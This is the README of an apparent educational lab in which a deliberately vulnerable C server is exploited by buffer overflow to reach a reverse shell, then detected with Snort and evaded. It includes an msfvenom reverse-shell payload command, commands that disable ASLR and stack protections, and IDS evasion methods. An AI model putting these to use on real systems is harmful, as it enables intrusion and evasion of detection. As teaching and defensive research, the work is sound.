



# buffer-overflow-network-attack-lab-ns

A buffer overflow attack in a network context, detectable through an IDS based on Snort

# Exploit Buffer Overflow & IDS Analysis

## Overview

This project consists of implementing an attack scenario on a TCP server with a **buffer overflow vulnerability** in a containerized and isolated environment using Docker.The goal is to understand how this type of attack works, develop a working exploit to obtain **a remote shell** on the machine targeted by the attack, and test an **Intrusion Detection System (IDS)** to identify the attack by monitoring network traffic and subsequently bypass its detection.

The project includes:

- A **vulnerable TCP server** written in C implemented and compiled to make it vulnerable to this type of attack.
- A series of **exploits** that allow the vulnerability to be exploited, bypassing credential checking or obtaining a **reverse shell**.
- An IDS system implemented with Snort with some **IDS rules** for detecting the attack.
- **IDS evasion techniques** to demonstrate the limitations of rule-based systems.
  The scenario has been implemented in a containerised environment in which the entities interact according to the following network scheme:
  

---

## Project Configuration

It is possible to start the scenario by launching the prepared script start_env.sh with superuser privileges, then it will be necessary to access the server container and launch the server with a startup script (start_server.sh) and operate the exploit execution by connecting via an interactive shell to the attacking client container.

### Description of the scenario

The server contains a buffer overflow vulnerability realised through the use of the strcpy() function of the standard C language library, it is compiled by disabling the security protections to facilitate the exploit:

```bash
gcc -g -m32 -no-pie -fno-stack-protector -z execstack -Wl,-z,norelro -o server_vuln server_vuln.c
```

Its implementation can be found in the file server/server_vuln.c

In order to allow the attack, it will also be necessary to disable the kernel's security mechanisms designed to prevent this type of attack, i.e. ASLR:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Connecting to the server will ask you to enter your credentials to access the system; if you enter the correct credentials, the system responds with an authentication message and returns an ASCII Art.

The attacking client can test the service by first sending a large input using python from the command line:

```bash
python -c "print 'A'\*3000 | nc vulnerable_server 4444"
```

in this way, if the server does not respond it will mean that it has crashed, this not only sets up as a Denial-of-Service attack, but is a clear indication of the possibility of a failure to check the input sent by the user exposing the server to a Buffer Overflow vulnerability.

By proceeding incrementally, however, it is possible to exploit the buffer overflow vulnerability and by providing an input of the right size, it will be possible to override the return parameter of the authentication function with a value other than 0 and pass the credential check while not knowing the credentials. This attack has been implemented and can be found in the file **exploit_auth_result.py**.

In order to carry out a more structured attack, it is necessary to calculate the offset of the input after which the **Extended Instruction Pointer**, a memory cell that contains the address of the calling function, is overwritten in order to return control.
This was done using the gdb debugger and the tools of the **Metasploit Framework (msf-pattern_create and msf-pattern_offset)** to obtain this information.
Next, a payload was prepared containing code to be injected for opening a reverse TCP shell on the target machine towards the attacking machine via the Metasploit Framework's msfvenom tool using the command:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LPORT=5555 LHOST=172.25.0.20 PrependSetuid=true -f python
```

the same has been concatenated with padding to fill the stack up to the EIP, a memory address to overwrite the EIP with the address of a cell containing our injected code, a set of NOP slide instructions and the actual generated payload. By launching the exploit and causing the attacking client to listen on the specified port we will obtain a remote shell of the now compromised target machine.


## IDS Configuration and Attack Detection

The attack detection system was implemented with **Snort**, configured to monitor the traffic between client and server with custom rules for detecting possible attacks on our internal network. Rules were defined to detect the buffer overflow attack by analysing characteristic patterns in the payload sent by the attacker.

### IDS Rules for Detection

Below are the rules implemented in Snort to identify the exploit attempt and any subsequent countermeasures by the attacker, defining an escalation of attack techniques and countermeasures that were implemented and analysed in this paper.

#### Detecting Repeated Sequences (Padding Overflow)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow";
 pcre:"/(.)\1{5,}/"; flow:to_server,established; sid:1000001; rev:1;)
```

##### Countermeasure

The rule can however generate false positives and is easily bypassed with random sequences of characters for padding.

#### Signature Detection Associated with Running /bin/shell (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow (Shellcode Signature)"; content:"|b8 01 00 00 00 bb 01 00 00 00 cd 80|"; flow:to_server,established; classtype:attempted-admin; sid:1000003; rev:1;)
```

##### Countermeasure

Using the Shitaka Ga Nai encoding offered by msfvenom we can easily bypass the check

#### Signature detection associated with the Shitaka Ga Nai decoder (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow (Shikata Ga Nai - Shellcode Signature)"; content:"|d9 74 24 f4|"; flow:to_server,established; classstype:attempted-admin; sid:1000004; rev:1;)
```

##### Countermeasure

Using TCP fragmentation we can prevent the ids, which by default checks for signatures associated with rules in the individual packet, to fragment the payload and bypass the check

#### Configuring Snort to allow the IDS to reconstruct TCP flows

Configuring the snort.conf file to enable the stream5_tcp preprocessor to parse the content sent in the TCP flow by reconstructing the sent fragments.
